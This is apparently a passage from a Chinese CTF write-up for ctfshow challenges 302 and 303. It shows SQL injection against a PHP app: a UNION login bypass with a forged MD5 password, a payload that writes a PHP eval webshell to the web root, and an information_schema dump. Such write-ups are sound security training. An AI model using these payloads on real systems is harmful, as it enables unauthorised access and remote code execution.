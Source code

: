 数据库里还是`admin/ctfshowwwww`，所以用这个登录是登不进的
想符合比较需要：
传入的userid经过sds_decode后等于`ctfshowwwww`，个人感觉不太可行

### 解法1：

可以看到username只是作为where的条件进行查询，真正进行判断的还是userpwd

那么利用联合查询的特性伪造一个密码出来：

![](https://i.loli.net/2021/10/06/QbZBImkE4wY3v5M.png)

```
userid=-1' union select "d9c77c4e454869d5d8da3b4be79694d3" %23&userpwd=1
```

![](https://i.loli.net/2021/10/06/jasWfrboUZkGtwc.png)

相关原理这里不赘述，自己本地试![](https://i.loli.net/2021/10/06/yiz5XrtLZxg8DQ1.png)

### 解法2：

sql语句依然没有添加过滤，也能正常被执行，那么写马还是可以的

```php
userid=' union select "<?php eval($_GET[1]);" into outfile "/var/www/html/a.php" --+
```



## 303 sql注入

这次seay有审到：dptadd.php，还是sql注入![](https://i.loli.net/2021/10/06/puIAoJWvV164XiZ.png)

```php
$sql="insert into sds_dpt set sds_name='".$dpt_name."',sds_address ='".$dpt_address."',sds_build_date='".$dpt_build_year."',sds_have_safe_card='".$dpt_has_cert."',sds_safe_card_num='".$dpt_cert_number."',sds_telephone='".$dpt_telephone_number."';";
```

`if(!isset($_SESSION['login']))`得先登录

这里我本来是想像302一样进去的，但是失败了，还给我弹回个东西

![](https://i.loli.net/2021/10/06/8HPCD7xSZgFT6zy.png)

重新审一下源码：checklogin.php

![](https://i.loli.net/2021/10/06/lijGn2ATLOZuhq4.png)

username长度不得超过6，所以方法不奏效了~
并且引用了fun.php，加了一句`echo sds_decode("admin");`
那么尝试admin/admin登入

成功，然后就是在dptadd.php里注入了

```
dpt_name=1',sds_address=(select group_concat(table_name) from information_schema.tables where table_schema=database())--+
```
